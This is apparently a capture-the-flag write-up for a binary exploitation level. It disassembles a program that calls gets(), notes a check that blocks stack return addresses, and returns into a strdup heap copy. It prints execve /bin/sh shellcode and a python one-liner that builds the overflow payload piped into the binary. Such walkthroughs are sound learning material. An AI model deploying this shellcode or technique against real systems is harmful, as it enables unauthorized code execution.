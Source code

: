 Let's disassemble the main function:
Dump of assembler code for function main:
0x0804853f <+0>: push %ebp
0x08048540 <+1>: mov %esp,%ebp
0x08048542 <+3>: and $0xfffffff0,%esp
0x08048545 <+6>: call 0x80484d4 <p>
0x0804854a <+11>: leave  
 0x0804854b <+12>: ret

we got a p() function with 'gets' being used inside of it:
0x080483c0 gets@plt

but the stack is secured with those statement:
0x080484fb <+39>: and $0xb0000000,%eax
0x08048500 <+44>: cmp $0xb0000000,%eax

so let's use the heap instead:
0x08048538 <+100>: call 0x80483e0 <strdup@plt>

the function returns strdup address.

let's use this shellcode
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

run on gdb the program copy paste the shell code and get the EIP offset with 'info register eip' (https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
the offset starts at 80 bytes

now we're going to create a payload of 21 bytes for the shell code, 59 bytes of arbitrary value and finally the 4 bytes address of the f() return value

python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" \* 59 + "\x08\xa0\x04\x08"' > /tmp/exploit #remove the backslash from \*

cat /tmp/exploit - | ./level2
